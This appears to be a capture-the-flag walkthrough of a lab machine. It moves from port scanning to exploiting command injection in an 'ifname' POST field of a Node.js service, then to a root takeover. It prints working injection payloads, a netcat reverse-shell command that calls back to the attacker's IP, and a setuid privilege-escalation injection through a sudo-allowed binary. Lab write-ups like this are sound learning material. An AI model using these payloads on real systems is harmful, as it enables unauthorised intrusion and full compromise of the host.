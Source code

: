 # Port Scaning
To start reconaissance we begin doing a port scan with rustscan:

```
❯ rustscan -a 10.0.160.83
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

Open 10.0.160.83:1337
```

We can look that there's an open port, with nmap we can gather more detailed information about what is running on that port

```vhdl
❯ nmap -p1337 -sCV -n -Pn -v 10.0.160.83 -oN scan
<SNIP>
Nmap scan report for 10.0.160.83
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| http-methods: 
```

That scan reveals a web on that port, when we put the ip and the port 1337 on our browser we can see this content:

![[Pasted image 20241104222627.png]]

So, with curl we can send a post request with the data requested:

```bash
> curl http://10.0.160.83:1337 -d 'ifname=tun0'
used interface tun0
```

The response shows up a dialog "used interface", so, we can try it in diferent ways:

```bash
> curl http://10.0.160.83:1337 -d 'ifname=target'
used interface target 
```

```bash
> curl http://10.0.160.83:1337 -d 'ifname=!"#$;:'
used interface !"#$;:
```

# Exploitation
We can execute commands whith that post request just doing something like this:

```bash
> curl http://10.0.160.83:1337 -d 'ifname=;commanToExecute;'
```

An example is doin an whoami:

```bash
> curl http://10.0.160.83:1337 -d 'ifname=;whoami;'
used interface ;whoami;
```

But we receive the same output, to verify if it is running a command we can try to ping ourselves and sniffing it with tcpdump:

***Victim***

```bash
> curl http://10.0.160.83:1337 -d 'ifname=;ping -c1 10.10.1.30;'
used interface ;ping -c1 10.10.1.30;
```

***Ourselves

```bash
tcpdump -i tun0 icmp
```

![[Pasted image 20241104223547.png]]

The output shows that the ping was received so we can know that the command is running, after it just send a connection whith netcat just this way:

```bash
> curl http://10.0.160.83:1337 -d 'ifname=;nc -e /bin/bash 10.10.1.30 1234;'
used interface ;nc -e /bin/bash 10.10.1.30 1234;
```

So, just have to listen in the port 1234

```bash
> nc -lvnp 1234
```

And we're in

# Privilege escalation
Doing sudo -l we can see that we can execute n158 as sudo, so, let's look up that command with browser:

![[Pasted image 20241104224713.png]]

This is vulnerable to code injection as sudo, so if we modify the bash permission givin it a setuid permission we can run it as root:

```bash 
> /usr/local/bin/n158 init --name ".';chmod +s /bin/bash;'#"
> /bin/bash -p
```

And we are root.

FLAGS ARE ON:
- `/etc/passwd`
- `/etc/shadow`
- `/root`
